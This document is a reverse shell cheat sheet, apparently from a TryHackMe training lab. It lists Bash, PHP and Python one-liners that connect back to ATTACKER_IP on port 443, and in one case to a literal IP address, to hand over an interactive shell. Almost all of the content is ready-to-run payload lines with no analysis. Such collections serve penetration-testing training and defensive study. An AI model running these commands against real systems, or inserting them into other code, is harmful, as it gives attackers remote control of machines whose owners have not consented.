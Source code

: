 **Bash Read Line** **Reverse Shell**
```shell-session
target@tryhackme:~$ exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done 
```

**Bash With File Descriptor 196** **Reverse Shell**
```shell-session
target@tryhackme:~$ 0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196 
```

**Bash With File Descriptor 5** **Reverse Shell**
```shell-session
target@tryhackme:~$ bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
```

#### PHP
**PHP Reverse Shell Using the exec Function**
```shell-session
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");' 
```

**PHP Reverse Shell Using the shell_exec Function**
```shell-session
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
```

**PHP Reverse Shell Using the system Function**
```shell-session
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");' 
```

**PHP Reverse Shell Using the passthru Function**
```shell-session
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
```

**PHP Reverse Shell Using the popen Function**
```shell-session
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");' 
```


#### Python

**Python Reverse Shell by Exporting Environment Variables**
```shell-session
target@tryhackme:~$ export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")' 
```


**Python Reverse Shell Using the subprocess Module**
```shell-session
target@tryhackme:~$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' 
```

